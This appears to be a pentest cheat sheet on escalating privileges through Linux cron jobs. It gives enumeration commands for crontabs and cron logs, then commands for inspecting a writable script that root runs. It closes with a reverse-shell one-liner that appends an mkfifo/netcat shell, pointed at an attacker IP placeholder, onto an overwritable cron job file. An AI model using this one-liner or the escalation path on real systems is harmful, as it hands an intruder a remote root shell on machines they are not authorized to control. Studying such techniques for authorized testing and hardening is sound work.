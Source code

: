 On a Linux system, the cron time-based job scheduler is a prime target, since system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

# Enumeration
```bash
crontab -l
```
```bash
sudo crontab -l
```
```bash
cat /etc/crontab
```
```bash
ls -lah /etc/cron*
```
Look for cron specific logs:
```bash
ls /var/log
```
```bash
grep "CRON" /var/log/syslog
```
Example vulnerable log showing root running a script in a user writeable directory:
![image](https://github.com/user-attachments/assets/93cf4552-bb6f-4bb0-b373-e6a84ff5afcf)

## Inspect Content/Permissions of cron job
```bash
ls -lah /home/joe/.scripts/user_backups.sh
```
```bash
cat /home/joe/.scripts/user_backups.sh
```
### Revshell Oneliner
If the cronjob can be overwritten:
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $(ATTACKER IP) $(PORT) >/tmp/f" >> $(CRONJOB_FILE)
```

